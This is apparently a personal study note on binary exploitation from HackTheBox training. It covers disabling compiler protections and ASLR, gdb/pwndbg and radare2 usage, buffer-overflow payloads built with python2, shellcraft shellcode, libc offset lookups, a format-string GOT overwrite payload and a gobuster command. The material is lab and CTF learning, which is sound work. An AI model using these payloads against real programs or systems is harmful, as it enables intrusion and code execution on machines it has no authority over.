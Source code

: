 ```yaml
---
title: "Binary Exploitation - By HTB"
tags:
  - hacking
  - htb
  - help
programming-languagues:
created: 2022-06-30
---
```

# Binary Exploitation
---
## 00
- Check file vulnerabilities:
```bash
checksec --file <filename>
```

- Gets rid of Stack, NX and PIE protection (-m32 changes to 32bits):
```bash
gcc <filename>.c -o <filename> -fno-stack-protector -z execstack -no-pie -m32
```

## 01
GDB-Pwndbg:
- It breaks exactly where the breakpoint is.

To view a variable/condition you can use the code below. This would print the location of the result, so it is a pointer to a register that holds it.
```bash
x $ebp - 0xc
```

You can then change that register like this:
```bash
set *0xffffceac = 1
```

## 02
If file type is **LSB** then reverse order, for example _dead_ would be _daed_. To get it:

```bash
python2 -c 'print 32 * "A" + "\xef\xbe\xad\xde"'
```

Send to a file and run with it: (xD)
```bash
python2 -c 'print 32 * "A" + "\xef\xbe\xad\xde"' > payload
./runMeImaFile < payload
```

## 03
Radare2:
```bash
aa
afl
```

We can use `cyclic 100` in `gdb-pwndbg` to generate a pattern, then run that into the program. We then get the characters in the register (eg `eip`) and run `cyclic -l <string>`, so for example: 
```bash
cyclic -l haaa
```

It will return how many bytes we need to overflow.

If the function we want to access is in `0x08049182` for example, we can do:
```bash
python2 -c 'print "A" * 28 + "\x82\x91\x04\x08"' > payload
```

```bash
ropper --file ret2win_params --search "pop rsi"
```

## 04
We check the `cycle`, then figure out how much to overflow. We find the `return` address (what function returns), set a breakpoint to it then run the program with the payload generated.

deadbeef = `\xef\xbe\xad\xde`

When a function is called, the return pointer is pushed to the stack, so it knows where to return to, followed by any function parameters.

With 64bits, we have to populate the registers not just send the parameters, for example `rdi` and `rsi`. We also when running `cyclic` take the values from the `RSP`, for example the first four.

## 05
Getting a shell:
```bash
shellcraft -l
shellcraft i386.linux.sh

# to get it in assembly:
shellcraft i386.linux.sh -f a
```

To get a reverse shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash");'
# control + z
stty raw -echo; fg;
export TERM=xterm
```

## 06
This file is safer as you can see with `checksec`. Therefore, we need to execute `bin/sh` from LibC.

To find libC we can run `ldd <filename>`.

To turn off randomiser:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

To get libC address:
```bash
ldd <filename>
```

To find the offset from base libC to system:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```

To find offset to `/bin/sh` for example:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/bash"
```

## 08
- https://guyinatuxedo.github.io/5.1-mitigation_aslr_pie/index.html
- https://github.com/shellphish/how2heap
- https://ir0nstone.gitbook.io/notes/types/stack

- Can use `piebase` in gdb-pwndbg to figure out the offset. For example, `breakrva <a function for example 0x11f0` sets a breakpoint in that function no matter if the program restarts as it knows the offset from the top of the run.

To find **libc** in a remote server: https://libc.blukat.me/ by using the leaked address, for example puts.

We can find the `GOT.printf` address in Ghidra, inside `.got.plt`. We can then write something at it.

### Tutorial
- Need to overwrite 0x0804c00c (`GOT.printf`) with 0xf7dff040 (`LIBC.system`).

- It means writing 0xf7df (63455) @ 0x0804c00c + 2 = 0x0804c00e (high order) and 0xf040 (61504) @ 0x0804c00c (low order).

- Now, we have to figure out the value to set for the padding. Here is the formula :

```
[The value we want] - [The bytes alredy wrote] = [The value to set].            
```                                                                                  

- Let’s start with the low order bytes :                                        

It’ll will be 61504 - 8 = 61496, because we already wrote 8 bytes (the two 4 bytes addresses).

- Then, the high order bytes:                                                  

It’ll will be 63455 - 61504 = 1951, because we already wrote 61504 bytes (the two 4 bytes addresses and 61496 bytes from the previous writing).                                                     

- Now we can construct the exploit (note our write offset is `%4` so we want `[%4,%5]` as offsets instead of `[%7,%8]`):

```
      \x0c\xc0\x04\x08 or 0x0804c00c (in reverse order) points to the low order bytes.    
      \x0e\xc0\x04\x08 or 0x0804c00e (in reverse order) points to the high order bytes.
      %61496x will write 61496 bytes on the standard output.                                              
      %4$hn will write 8 + 61496 = 61504 bytes (or 0xf040) at the first address specified (0x0804c00c).
      %1951x will write 1951 bytes on the standard output.                                                  
      %5$hn will write 8 + 61496 + 1951 = 63455 (or 0xf7df) at the second address specified (0x0804c00e).
```                                                                                            

```python
  python2 -c 'print("\x0c\xc0\x04\x08\x0e\xc0\x04\x08%61496x%4$hn%1951x%5$hn")' > payload
```                                                                                      

  * Based on excellent blogpost: https://axcheron.github.io/exploit-101-format-strings/

```bash
(cat payload; cat) | ./got_overwrite
```

## HTB - Explosion (Starting Point)
- Info on ports [here](https://www.speedguide.net/ports.php).

## HTB - Preignition (Starting Point)
- Dir busting:
```bash
sudo gobuster dir -w /usr/share/wordlists/dirb/common.txt -u {ip}
```

## HTB - Bike (Starting Point)
Hacktricks guide ([here](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection))

### Useful tools
- Ghidra
- GDB
- Radare2
- Ropper
- GDB-PwnDBG
- LTrace